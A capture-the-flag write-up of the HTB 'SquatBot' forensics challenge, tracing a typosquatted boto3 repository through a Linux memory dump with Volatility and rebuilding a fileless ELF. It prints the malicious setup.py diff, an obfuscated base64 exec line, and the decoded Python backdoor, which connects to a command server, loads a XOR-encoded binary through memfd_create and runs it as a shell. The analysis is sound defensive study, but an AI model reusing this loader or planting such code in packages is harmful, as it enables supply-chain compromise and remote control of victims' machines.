



# HTB Business CTF 2022 - SquatBot

## Challenge

> An AWS development company that provides full-scale cloud consulting and AWS application development services has recently been compromised. They try to maintain cyber hygiene by applying numerous procedures and safe development practices. To this day, they are unaware of how malware could penetrate their defenses. We have managed to obtain a memory dump and isolate the compromised server. Can you analyze the dump and examine the malware's behavior?

- `forensics_squatbot.zip` (~200 MB) - Ask the file from me
  - `dump.mem`
  - `Ubuntu_4.15.0-184-generic_profile.zip`

### Metadata

- Difficulty: `hard`
- Tags: `linux`, `memory`, `volatility`, `boto3`, `xor`, `elf`
- Points: `525`
- Number of solvers: `tbd`

## Solution

### Running every plugin

It is obviously a memory forensics challenge. We must use `Volatility 2.x` as the given profile format is for `Volatility 2.x`. `Volatility 3.x` requires the profile to be in a different format. When working with `Volatility 2.x` I suggest that you always `git clone` the latest version from GitHub.

To use a given Linux plugin, you must copy it in the `volatility/plugins/overlays/linux` directory.

Then, run with `--info` to identify the name of the complete profile loaded from the ZIP file.

```shell
$ python2 vol2.py -f dump.mem  --info                                                   
Volatility Foundation Volatility Framework 2.6.1

Profiles
--------
LinuxUbuntu_4_15_0-184-generic_profilex64 - A Profile for Linux Ubuntu_4.15.0-184-generic_profile x64
VistaSP0x64                               - A Profile for Windows Vista SP0 x64
VistaSP0x86                               - A Profile for Windows Vista SP0 x86
VistaSP1x64                               - A Profile for Windows Vista SP1 x64
VistaSP1x86                               - A Profile for Windows Vista SP1 x86
[...]
```

Now, we can run plugins using the profile:

```shell
$ python2 vol2.py -f dump.mem --profile=LinuxUbuntu_4_15_0-184-generic_profilex64 linux_banner
Linux version 4.15.0-184-generic (buildd@lcy02-amd64-006) (gcc version 7.5.0 (Ubuntu 7.5.0-3ubuntu1~18.04)) #194-Ubuntu SMP Thu Jun 2 18:54:48 UTC 2022 (Ubuntu 4.15.0-184.194-generic 4.15.18)
```

During the CTF we missed the first clue in one of the plugins so we ran almost all of the available Linux plugins. I just show some outputs here.

`linux_pstree` (without the kernel threads (`[kthreadd]`)):
```
Name                 Pid             Uid
systemd              1
.systemd-journal     432
.systemd-udevd       449
.lvmetad             471
.systemd-timesyn     628             62583
.systemd-network     725             100
.systemd-resolve     742             101
.networkd-dispat     819
.lxcfs               820
.atd                 823
.cron                836
.accounts-daemon     840
.rsyslogd            841             102
.dbus-daemon         851             103
.systemd-logind      857
.sshd                863
..sshd               1344
...sshd              1419            1000
....bash             1420            1000
.login               877
..bash               1295            1000
...sudo              1342
....insmod           1452
.polkitd             878
.unattended-upgr     880
.systemd             1273            1000
..(sd-pam)           1274            1000
.python3             1451            1000
```

`linux_netstat` (stripped):
```
UDP      192.168.1.6     :   68 0.0.0.0         :    0                   systemd-network/725  
UDP      fe80::a00:27ff:fe3f:7a8c:  546 ::              :    0                   systemd-network/725  
UDP      127.0.0.53      :   53 0.0.0.0         :    0                   systemd-resolve/742  
TCP      127.0.0.53      :   53 0.0.0.0         :    0 LISTEN            systemd-resolve/742  
TCP      0.0.0.0         :   22 0.0.0.0         :    0 LISTEN                       sshd/863  
TCP      ::              :   22 ::              :    0 LISTEN                       sshd/863  
TCP      192.168.1.6     :   22 192.168.1.10    :35628 ESTABLISHED                  sshd/1344 
TCP      192.168.1.6     :   22 192.168.1.10    :35628 ESTABLISHED                  sshd/1419 
```

`linux_bash`:
```
Pid      Name                 Command Time                   Command
-------- -------------------- ------------------------------ -------
    1295 bash                 2022-06-16 07:17:08 UTC+0000   ls
    1295 bash                 2022-06-16 07:17:08 UTC+0000   pwd
    1295 bash                 2022-06-16 07:17:08 UTC+0000   sudo poweroff
    1295 bash                 2022-06-16 07:17:08 UTC+0000   sudo poweroff
    1295 bash                 2022-06-16 07:17:08 UTC+0000   history
    1295 bash                 2022-06-16 07:17:08 UTC+0000   ip a
    1295 bash                 2022-06-16 07:18:32 UTC+0000   cd LiME/src/
    1295 bash                 2022-06-16 07:19:20 UTC+0000   sudo insmod lime-4.15.0-184-generic.ko "path=../dump.mem format=lime"
    1420 bash                 2022-06-16 07:19:54 UTC+0000   ls
    1420 bash                 2022-06-16 07:19:54 UTC+0000   pwd
    1420 bash                 2022-06-16 07:19:54 UTC+0000   ip a
    1420 bash                 2022-06-16 07:19:54 UTC+0000   history
    1420 bash                 2022-06-16 07:19:54 UTC+0000   sudo poweroff
    1420 bash                 2022-06-16 07:19:54 UTC+0000   sudo poweroff
    1420 bash                 2022-06-16 07:20:45 UTC+0000   ls
    1420 bash                 2022-06-16 07:20:50 UTC+0000   git clone https://github.com/bootooo3/boto3.git
    1420 bash                 2022-06-16 07:20:55 UTC+0000   ls
    1420 bash                 2022-06-16 07:20:57 UTC+0000   cd boto3/
    1420 bash                 2022-06-16 07:20:58 UTC+0000   ls
    1420 bash                 2022-06-16 07:21:17 UTC+0000   python3 setup.py install
```

`linux_psaux` (without the kernel threads (`[kthreadd]`)):
```
Pid    Uid    Gid    Arguments
1      0      0      /sbin/init maybe-ubiquity
432    0      0      /lib/systemd/systemd-journald
449    0      0      /lib/systemd/systemd-udevd
471    0      0      /sbin/lvmetad -f
628    62583  62583  /lib/systemd/systemd-timesyncd
725    100    102    /lib/systemd/systemd-networkd
742    101    103    /lib/systemd/systemd-resolved
819    0      0      /usr/bin/python3 /usr/bin/networkd-dispatcher --run-startup-triggers
820    0      0      /usr/bin/lxcfs /var/lib/lxcfs/
823    0      0      /usr/sbin/atd -f
836    0      0      /usr/sbin/cron -f
840    0      0      /usr/lib/accountsservice/accounts-daemon
841    102    106    /usr/sbin/rsyslogd -n
851    103    107    /usr/bin/dbus-daemon --system --address=systemd: --nofork --nopidfile --systemd-activation --syslog-only
857    0      0      /lib/systemd/systemd-logind
863    0      0      /usr/sbin/sshd -D
877    0      1000   /bin/login -p --
878    0      0      /usr/lib/policykit-1/polkitd --no-debug
880    0      0
1273   1000   1000   /lib/systemd/systemd --user
1274   1000   1000   (sd-pam)
1295   1000   1000   -bash
1342   0      0      sudo insmod lime-4.15.0-184-generic.ko path=../dump.mem format=lime
1344   0      0      sshd: developer [priv
1419   1000   1000   sshd: developer@pts/0
1420   1000   1000   -bash
1451   1000   1000   python3 setup.py install
1452   0      0      insmod lime-4.15.0-184-generic.ko path=../dump.mem format=lime
```

### Finding the needle the haystack of plugins

I don't know if you see it, one plugin from the above three printed something interesting.

It's in the `linux_bash` output...

Check the cloned repository and search for `boto3`:

- real `boto3`: <https://github.com/boto/boto3.git>
- cloned `boto3`: <https://github.com/bootooo3/boto3.git>

Well, well, well, ain't that sneaky!

Let's `diff` the two repositories:

```diff
$ diff boto3-original boto3-modified 
Common subdirectories: boto3-original/boto3 and boto3-modified/boto3
[...]
diff --color boto3-original/setup.py boto3-modified/setup.py
1a2,3
> exec(__import__('base64').b64decode('aW1wb3J0IGN0eXBlcwppbXBvcnQgb3MKaW1wb3J0IHJlcXVlc3RzCmltcG9ydCBzb2NrZXQKaW1wb3J0IHN5cwppbXBvcnQgdGltZQoKZGVmIGNoZWNrSW4oKToKCglkYXRhID0gewoJImFjdGlvbiI6ICJjaGVja2luIiwKCSJ1c2VyIjogb3MuZ2V0bG9naW4oKSwKCSJob3N0Ijogc29ja2V0LmdldGhvc3RuYW1lKCksCgkicGlkIjogb3MuZ2V0cGlkKCksCgkiYXJjaGl0ZWN0dXJlIjogIng2NCIgaWYgc3lzLm1heHNpemUgPiAyKiozMiBlbHNlICJ4ODYiLAoJfQoKCXJlcyA9IHJlcXVlc3RzLnBvc3QoZiJodHRwczovL2ZpbGVzLnB5cGktaW5zdGFsbC5jb20vcGFja2FnZXM/bmFtZT17b3MuZ2V0bG9naW4oKX1Ae3NvY2tldC5nZXRob3N0bmFtZSgpfSIsanNvbj1kYXRhKQoKCWlmIHJlcy5jb250ZW50ICE9ICJPayI6CgkJcmV0dXJuIEZhbHNlCgllbHNlOgoJCXJldHVybiBUcnVlCgoKZGVmIHJ1bihmZCk6CgoJdGltZS5zbGVlcCgxMCkKCW9zLmV4ZWNsKGYiL3Byb2Mvc2VsZi9mZC97ZmR9Iiwic2giKQoKCXdoaWxlKFRydWUpOgoJCWlmIGNoZWNrSW4oKTogb3MuZXhlY2woZiIvcHJvYy9zZWxmL2ZkL3tmZH0iLCJzaCIpCgpJUCA9ICI3Ny43NC4xOTguNTIiClBPUlQgPSA0NDQzCkFERFIgPSAoSVAsIFBPUlQpClNJWkUgPSAxMDI0CgoKY2xpZW50ID0gc29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCwgc29ja2V0LlNPQ0tfU1RSRUFNKQoKY2xpZW50LmNvbm5lY3QoQUREUikKCmZkID0gY3R5cGVzLkNETEwoTm9uZSkuc3lzY2FsbCgzMTksIiIsMSkKCgp3aGlsZShUcnVlKToKCglkYXRhID0gY2xpZW50LnJlY3YoU0laRSkKCglpZiBub3QgZGF0YTogYnJlYWsKCglmb3IgaSBpbiBkYXRhOgoJCW9wZW4oZiIvcHJvYy9zZWxmL2ZkL3tmZH0iLCJhYiIpLndyaXRlKGJ5dGVzKFtpIF4gMjM5XSkpCgpjbGllbnQuY2xvc2UoKQoKZm9yazEgPSBvcy5mb3JrKCkKaWYgMCAhPSBmb3JrMToKCW9zLl9leGl0KDApCgoKb3MuY2hkaXIoIi8iKQpvcy5zZXRzaWQoICApCm9zLnVtYXNrKDApCgoKZm9yazIgPSBvcy5mb3JrKCkKaWYgMCAhPSBmb3JrMjoKCXN5cy5leGl0KDApCgoKcnVuKGZkKQoKCg=='))
[...]
```

An extra Python code is execute when `setup.py` is executed.

### The backdoor

If we decode the `base64` encoded string, we get the following Python code ([backdoor.py](files/backdoor.py)):

```python
import ctypes
import os
import requests
import socket
import sys
import time

def checkIn():
	data = {
	"action": "checkin",
	"user": os.getlogin(),
	"host": socket.gethostname(),
	"pid": os.getpid(),
	"architecture": "x64" if sys.maxsize > 2**32 else "x86",
	}

	res = requests.post(f"https://files.pypi-install.com/packages?name={os.getlogin()}@{socket.gethostname()}",json=data)
	if res.content != "Ok":
		return False
	else:
		return True

def run(fd):
	time.sleep(10)
	os.execl(f"/proc/self/fd/{fd}","sh")
	while(True):
		if checkIn(): os.execl(f"/proc/self/fd/{fd}","sh")

IP = "77.74.198.52"
PORT = 4443
ADDR = (IP, PORT)
SIZE = 1024


client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
client.connect(ADDR)
fd = ctypes.CDLL(None).syscall(319,"",1)

while(True):
	data = client.recv(SIZE)
	if not data: break
	for i in data:
		open(f"/proc/self/fd/{fd}","ab").write(bytes([i ^ 239]))

client.close()

fork1 = os.fork()
if 0 != fork1:
	os._exit(0)

os.chdir("/")
os.setsid(  )
os.umask(0)

fork2 = os.fork()
if 0 != fork2:
	sys.exit(0)

run(fd)
```

1. Creates a socket to the C&C server (which was not available).
2. Creates a file descriptor (?) with syscall 319.
3. Reads 1024 bytes from the socket in a loop, while it can read, XORs the bytes with 239 and writes the results to the file descriptor.
4. Creates a daemon process ([reference](https://stackoverflow.com/a/45912948)).
5. It replaces the current process image with a new process image from the file descriptor using `execl`.

As it turns out, syscall 319 (`memfd_create`) can be used to create a fileless in-memory malware:

> You can create a file descriptor in memory. If you're an attacker, you can use this nice syscall to execute binaries without touching any file in the filesystem.

References and examples:
- <http://0x90909090.blogspot.com/2019/02/executing-payload-without-touching.html>
- <https://github.com/nullbites/SnakeEater>

So we have to find the injected binary image in memory somewhere.

### (Not) finding the binary

You might also have some ideas on how to find this binary, we tried the following:
- The interesting memory pages should be in the memory of the `1451` which is the Python process (`linux_dump_map`).
- The interesting page(s) should be at least readable and executable (`rx`), might also be writable (`w`) (`linux_proc_maps`).
- Somewhere there should be an `ELF` header (`7f 45 4c 46`).

During the CTF, we dumped the `1451` process' memory with `linux_dump_map` and searched for parts of the binary without success.

```bash
$ ls -la
[...]
.rw-r--r-- manjaro manjaro 4.2 MB Fri Jul 15 22:33:39 2022  task.1451.0x14f0000.vma
.rw-r--r-- manjaro manjaro 3.7 MB Fri Jul 15 22:33:39 2022  task.1451.0x400000.vma
.rw-r--r-- manjaro manjaro 768 KB Fri Jul 15 22:33:39 2022  task.1451.0x7f803a409000.vma
.rw-r--r-- manjaro manjaro  68 KB Fri Jul 15 22:33:39 2022  task.1451.0x7f803a4c9000.vma
.rw-r--r-- manjaro manjaro 2.0 MB Fri Jul 15 22:33:39 2022  task.1451.0x7f803a4da000.vma
.rw-r--r-- manjaro manjaro 4.0 KB Fri Jul 15 22:33:39 2022  task.1451.0x7f803a6d9000.vma
.rw-r--r-- manjaro manjaro 4.0 KB Fri Jul 15 22:33:39 2022  task.1451.0x7f803a6da000.vma
.rw-r--r-- manjaro manjaro 1.8 MB Fri Jul 15 22:33:39 2022  task.1451.0x7f803a6db000.vma
.rw-r--r-- manjaro manjaro 808 KB Fri Jul 15 22:33:39 2022  task.1451.0x7f803a89b000.vma
[...]
```

### Finding a part of the binary

Then came the amazing idea: What if we search for the encrypted (XORed) parts of the binary in memory?

The XOR byte is `0xef` (239), in a random memory page or area, there are usually many `0x00` bytes. Let's try to find some `ef ef ef ef` regions.

```bash
$ hd task.1451.0x14f0000.vma | grep -C 5 "ef ef ef ef"
00422a60  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
*
00422c40  64 01 83 01 7c 00 5f 01  31 01 00 00 00 00 00 00  |d...|._.1.......|
00422c50  90 f9 72 01 00 00 00 00  10 00 4f 01 00 00 00 00  |..r.......O.....|
00422c60  f8 00 00 00 00 00 00 00  ff ff ff ff ff ff ff ff  |................|
00422c70  ec ef ef ef ef ef ef ef  6f af ef ef ef ef ef ef  |........o.......|
00422c80  6f df ef ef ef ef ef ef  ff ef ef ef ef ef ef ef  |o...............|
00422c90  ef ef ef ef ef ef ef ef  e7 ef ef ef ef ef ef ef  |................|
00422ca0  ef ef ef ef ef ef ef ef  13 ef ef ef e7 ef ef ef  |................|
00422cb0  ec ef ef ef ef ef ef ef  7f af ef ef ef ef ef ef  |................|
00422cc0  7f df ef ef ef ef ef ef  e7 ef ef ef ef ef ef ef  |................|
00422cd0  ef ef ef ef ef ef ef ef  ee ef ef ef ef ef ef ef  |................|
00422ce0  ef ef ef ef ef ef ef ef  ee ee ef ef ee ef ef ef  |................|
00422cf0  df ef ef ef ef ef ef ef  ef ef ef ef ef ef ef ef  |................|
```

Amazing, the memory area at `0x14f0000` looks promising, no other memory areas contain `ef`s.

Now, we can find out the purpose of the memory area using `linux_proc_maps`:
```
Offset             Pid      Name                 Start              End                Flags               Pgoff Major  Minor  Inode      File Path
------------------ -------- -------------------- ------------------ ------------------ ------ ------------------ ------ ------ ---------- ---------
0xffff914f6f7ec500     1451 python3              0x00000000014f0000 0x0000000001926000 rw-                   0x0      0      0          0 [heap]
```

Heap, sounds reasonable, I guess the `data` variable in the Python code above is stored on the heap.

If we XOR the heap with `0xef` we can find the following interesting strings in the result:



It seems like the start of an ELF section header. Unfortunately, we can only find around 1k bytes and some of them are already rewritten. In my opinion we can see the last content of the `data` array, but the older contents are already overwritten.

Perhaps there are some old memory pages which are not currently used (and not shown by `linux_proc_maps`), but available for a process if needed (can be gather using `linux_memmap`).

After the CTF, I checked the implementation of these plugins:
- `linux_proc_maps`: Walks through the memory maps of the process (`mmap`) and prints the `vma`s ([reference](https://github.com/volatilityfoundation/volatility/blob/master/volatility/plugins/linux/proc_maps.py))
- `linux_memmap`: Prints all available pages for an address space ([reference](https://github.com/volatilityfoundation/volatility/blob/master/volatility/plugins/linux/pslist.py#L150)):
  - In our case this is done by [AMD64PagedMemory](https://github.com/volatilityfoundation/volatility/blob/master/volatility/plugins/addrspaces/amd64.py#L231).

I think we cannot get the needed memory areas using `volatility`, we need a different approach.

### Finding all parts of the binary

Let's just XOR the complete memory dump with `0xef`.

Between around `0x39177c00` and `0x3917c600` we might have what we need. I aligned the dump to a `2` offset, because every interesting part (for example the `ELF` magic header) started as `xxx2`:

```
$ hexdump -C -s 957840450 dump-xored.mem | less
[...]
39178ec2  00 00 00 00 00 00 00 00  88 40 00 00 00 00 00 00  |.........@......|
39178ed2  47 43 43 3a 20 28 44 65  62 69 61 6e 20 39 2e 33  |GCC: (Debian 9.3|
39178ee2  2e 30 2d 31 35 29 20 39  2e 33 2e 30 00 00 2e 73  |.0-15) 9.3.0...s|
39178ef2  68 73 74 72 74 61 62 00  2e 69 6e 74 65 72 70 00  |hstrtab..interp.|
39178f02  2e 6e 6f 74 65 2e 67 6e  75 2e 70 72 6f 70 65 72  |.note.gnu.proper|
39178f12  74 79 00 2e 6e 6f 74 65  2e 67 6e 75 2e 62 75 69  |ty..note.gnu.bui|
[...]
39179e22  01 00 02 00 0a 00 2f 62  69 6e 2f 73 68 00 00 00  |....../bin/sh...|
39179e32  01 1b 03 3b 44 00 00 00  07 00 00 00 10 f0 ff ff  |...;D...........|
39179e42  90 00 00 00 f0 f0 ff ff  b8 00 00 00 00 f1 ff ff  |................|
[...]
3917b832  0d 35 ef ef ee ee e7 e5  c6 42 77 e5 86 7a 51 f3  |.5.......Bw..zQ.|
3917b842  6e 73 00 63 6f 6e 6e 65  63 74 00 73 74 72 6c 65  |ns.connect.strle|
3917b852  6e 00 73 74 72 63 73 70  6e 00 72 65 61 64 00 64  |n.strcspn.read.d|
3917b862  75 70 32 00 69 6e 65 74  5f 61 64 64 72 00 65 78  |up2.inet_addr.ex|
3917b872  65 63 76 65 00 5f 5f 63  78 61 5f 66 69 6e 61 6c  |ecve.__cxa_final|
3917b882  69 7a 65 00 73 79 73 69  6e 66 6f 00 73 74 72 63  |ize.sysinfo.strc|
3917b892  6d 70 00 5f 5f 6c 69 62  63 5f 73 74 61 72 74 5f  |mp.__libc_start_|
3917b8a2  6d 61 69 6e 00 73 79 73  63 6f 6e 66 00 6c 69 62  |main.sysconf.lib|
[...]
3917bfc2  7f 45 4c 46 02 01 01 00  00 00 00 00 00 00 00 00  |.ELF............|
3917bfd2  03 00 3e 00 01 00 00 00  10 11 00 00 00 00 00 00  |..>.............|
3917bfe2  40 00 00 00 00 00 00 00  b8 31 00 00 00 00 00 00  |@........1......|
```

In the middle of this area, we also find the `.text` section, because there are many `H` characters, it's the `REX` prefix in x86-64 long mode ([Reference 1](https://wiki.osdev.org/Long_Mode), [Reference 2](https://stackoverflow.com/a/11180774)):

```
3917a962  ff 25 f2 2e 00 00 66 90  00 00 00 00 00 00 00 00  |.%....f.........|
3917a972  31 ed 49 89 d1 5e 48 89  e2 48 83 e4 f0 50 54 4c  |1.I..^H..H...PTL|
3917a982  8d 05 da 03 00 00 48 8d  0d 73 03 00 00 48 8d 3d  |......H..s...H.=|
3917a992  e6 00 00 00 ff 15 a6 2e  00 00 f4 0f 1f 44 00 00  |.............D..|
3917a9a2  48 8d 3d 49 2f 00 00 48  8d 05 42 2f 00 00 48 39  |H.=I/..H..B/..H9|
3917a9b2  f8 74 15 48 8b 05 7e 2e  00 00 48 85 c0 74 09 ff  |.t.H..~...H..t..|
3917a9c2  e0 0f 1f 80 00 00 00 00  c3 0f 1f 80 00 00 00 00  |................|
3917a9d2  48 8d 3d 19 2f 00 00 48  8d 35 12 2f 00 00 48 29  |H.=./..H.5./..H)|
3917a9e2  fe 48 89 f0 48 c1 ee 3f  48 c1 f8 03 48 01 c6 48  |.H..H..?H...H..H|
3917a9f2  d1 fe 74 14 48 8b 05 55  2e 00 00 48 85 c0 74 08  |..t.H..U...H..t.|
3917aa02  ff e0 66 0f 1f 44 00 00  c3 0f 1f 80 00 00 00 00  |..f..D..........|
3917aa12  80 3d d9 2e 00 00 00 75  2f 55 48 83 3d 36 2e 00  |.=.....u/UH.=6..|
3917aa22  00 00 48 89 e5 74 0c 48  8b 3d ba 2e 00 00 e8 2d  |..H..t.H.=.....-|
3917aa32  ff ff ff e8 68 ff ff ff  c6 05 b1 2e 00 00 01 5d  |....h..........]|
3917aa42  c3 0f 1f 80 00 00 00 00  c3 0f 1f 80 00 00 00 00  |................|
3917aa52  e9 7b ff ff ff 55 48 89  e5 48 83 ec 70 48 8d 45  |.{...UH..H..pH.E|
```

It seems that now we have to recreate the binary from these parts, hopefully we can.

### Recreating the binary

We can carefully collect all the different parts of the binary. As far as I know memory, the structures are usually aligned to 8 or 16 bytes, so it is a good rule of thumb to search for the start and the end of a binary part at `len%8==0` or `len%16==0` ranges. We can collect the following ranges:

```
0x3917bfc2 - 0x3917c562 -> ELF header + program header table
0x3917b842 - 0x3917bb52 -> dynamic symbol table (socket, exit, htons, connect)
<zero padding>
0x3917b582 - 0x3917b662 -> .init, .plt, .plt.got sections
0x3917a942 - 0x3917ad82 -> .text section
0x39179e22 - 0x39179fa2 -> .rodata with "/bin/sh"
<zero padding>
0x39178c22 - 0x391790e2 -> .dynamic, .got, .got.plt, .data, .bss, .comment sections, section header table
0x391783c2 - 0x39178962 -> section header table
0x39177c42 - 0x39177cfa -> section header table
```

During the CTF I used `010 Editor`, opened a small ELF binary and applied the [`ELF.bt`](https://www.sweetscape.com/010editor/repository/files/ELF.bt) template on it. Then, I compared the collected memory sections and tried to find similar patterns.

The ELF header is really useful as it contains the section header offset and the virtual address of the entry point.



This way the length of the `0x00` paddings can also be identified.

Luckily, all parts of the binary can be found, the recreated binary is available: [fileless.elf](files/fileless.elf)

### Analyzing the binary

We can now load the binary in IDA an analyze it:



The program creates a socket to the C&C server, creates some byte array in `local_a8`, reads from the socket and if the read data equals to what's in `local_a8`, it executes `/bin/sh`.

Hopefully the flag is in `local_08`. If we check the `while` loop, we can see, that the initial bytes are XORed with `0x1f`. Let's copy the bytes and XOR them (watch the endianness).

```
574b5d645c2f726f732c6b2c736640792e732c732c6c6c407d6a6b406c6b2e7373407b2c6b2c7c6b2b7d732c62
```

Flag: `HTB{C0mpl3t3ly_f1l3l3ss_but_st1ll_d3t3ct4bl3}`

There's a faster way: `ltrace`

```bash
$ ltrace -s 100 ./fileless.elf
sysconf(85, 0x7ffde35e07b8, 0x7ffde35e07c8, 0x558532bd14a0) = 0x3d2cc
sysconf(30, 0x7ffde35e07b8, 0x3d6cb, 0)          = 4096
sysconf(84, 0x7ffde35e07b8, 5119, 0)             = 1
sysinfo(0x7ffde35e05a0, 0x7f0d34ab63c0, 0x7ffde35de512, 0) = 0
strlen("((1(+1.&'1*-")                           = 12
strlen("7(1(+1.&'1*-")                           = 12
[...]
strlen("77.74.198.5-")                           = 12
strlen("77.74.198.52")                           = 12
socket(2, 1, 0)                                  = 3
htons(4444, 1, 0, 0x7f0d34a3a90b)                = 0x5c11
inet_addr("77.74.198.52")                        = 0x34c64a4d
connect(3, 0x7ffde35e0680, 16, 0x7ffde35e0680)   = 0xffffffff
dup2(3, 0)                                       = 0
dup2(3, 1)                                       = 1
dup2(3, 2)                                       = 2
strlen("WK]d\\/ros,k,sf@y.s,s,ll@}jk@lk.ss@{,k,|k+}s,b") = 45
strlen("HK]d\\/ros,k,sf@y.s,s,ll@}jk@lk.ss@{,k,|k+}s,b") = 45
[...]
strlen("HTB{C0mpl3t3ly_f1l3l3ss_but_st1ll_d3t3ct4bl3b") = 45
strlen("HTB{C0mpl3t3ly_f1l3l3ss_but_st1ll_d3t3ct4bl3}") = 45
read(3 <no return ...>
error: maximum array length seems negative
, "", 46)                                        = -1
strcspn("", "\n")                                = 0
strcmp("HTB{C0mpl3t3ly_f1l3l3ss_but_st1ll_d3t3ct4bl3}", "") = 72
+++ exited (status 0) +++
```

## Review

This was the `hard` forensics challenge, we were the 3rd solvers (3rd blood) and I think only around 10 teams were able to solve it. There are some things I don't 100% understand, if you can help me, or ready for discussion, ping me on [Twitter](https://twitter.com/tkh4ck), or LinkedIn:
- Why the unencrypted (unxored) binary which was executed by the Python `setup.py` script and loaded to the in-memory file descriptor was not present in memory in any way?
- If it is present, how can I find it?
- `linux_lsof` showed this, is this the needed file descriptor?
```
Offset             Name                           Pid      FD       Path
------------------ ------------------------------ -------- -------- ----
0xffff914f6f7ec500 python3                        1451            4 /:[22758]
```
- `linux_memmap` showed many pages for every process in a virtual memory address which I don't know what it means. What are these pages? Are they pages which are currently not mapped to any process? How come that they are unmapped or removed from the `python` process? I don't really get these addresses as they are between user space (`0x0000000000000000-0x00007fffffffffff`) and kernel space (`0xffff800000000000-0xffffffffffffffff`) as far as I know.
```
Task             Pid      Virtual            Physical                         Size
---------------- -------- ------------------ ------------------ ------------------
python3              1451 0x0000914f40179000 0x0000000000179000             0x1000
python3              1451 0x0000914f4017a000 0x000000000017a000             0x1000
python3              1451 0x0000914f4017b000 0x000000000017b000             0x1000
[...]
python3              1451 0x0000ff5ed5431000 0x000000003e014000             0x1000
python3              1451 0x0000ff5ed5441000 0x000000003e014000             0x1000
python3              1451 0x0000ff5ed5451000 0x000000003e014000             0x1000
```

Thanks for helping!

## Files

- `forensics_squatbot.zip` (~200 MB): Challenge files, ask them from me
  - `dump.mem`
  - `Ubuntu_4.15.0-184-generic_profile.zip`
- [backdoor.py](files/backdoor.py): Backdoor Python code in the executed `boto3` `setup.py`
- [fileless.elf](files/fileless.elf): The recreated fileless malware